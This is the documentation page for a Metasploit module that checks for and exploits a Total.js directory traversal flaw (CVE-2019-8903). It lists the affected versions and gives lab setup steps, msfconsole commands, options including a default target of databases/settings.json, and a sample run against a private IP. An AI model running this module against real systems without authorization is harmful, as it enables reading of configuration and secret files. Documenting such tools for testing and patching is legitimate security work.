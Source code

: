 ## Description

This module check and exploits a Directory Traversal vulnerability in Total.js framework < 3.2.4 (CVE-2019-8903). Here is a list of accepted extensions: flac, jpg, jpeg, png, gif, ico, js, css, txt, xml, woff, woff2, otf, ttf, eot, svg, zip, rar, pdf, docx, xlsx, doc, xls, html, htm, appcache, manifest, map, ogv, ogg, mp4, mp3, webp, webm, swf, package, json, md, m4v, jsx, heif, heic.

## Vulnerable Application

Affecting total.js package, versions:

* >=2.1.0 <2.1.1
* >=2.2.0 <2.2.1
* >=2.3.0 <2.3.1
* >=2.4.0 <2.4.1
* >=2.5.0 <2.5.1
* >=2.6.0 <2.6.3
* >=2.7.0 <2.7.1
* >=2.8.0 <2.8.1
* >=2.9.0 <2.9.5
* >=3.0.0 <3.0.1
* >=3.1.0 <3.1.1
* >=3.2.0 <3.2.4

## Verification Steps

1. On a Node v8 environment do: `npm install total.js@3.2.3`
2. Install an app on top of the Total.js framework, something like [Total.js CMS](https://github.com/totaljs/cms)
  * `git clone https://github.com/totaljs/cms.git`
  * `cd cms && npm install`
3. Start `msfconsole`
4. `use auxiliary/scanner/http/totaljs_traversal`
5. `set RHOST <IP>`
6. `set RPORT <PORT>`
7. `run`
8. Verify you get Total.js version if the target is vulnerable!

## Options

### DEPTH

  Traversal depth. Default is `1`

### FILE

  File to obtain. Default is `databases/settings.json`

## Scenarios

### Tested on Total.js framework 3.2.0 and Total.js CMS 12.0.0

```
msf > use auxiliary/scanner/http/totaljs_traversal 
msf auxiliary(scanner/http/totaljs_traversal) > set RHOST 192.168.2.59
RHOST => 192.168.2.59
msf auxiliary(scanner/http/totaljs_traversal) > set RPORT 8320
RPORT => 8320
msf auxiliary(scanner/http/totaljs_traversal) > run
[*] Running module against 192.168.2.59

[*] Total.js version is: ^3.2.0
[*] App name: CMS
[*] App description: A simple and powerful CMS solution written in Total.js / Node.js.
[*] App version: 12.0.0
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/totaljs_traversal) >
```
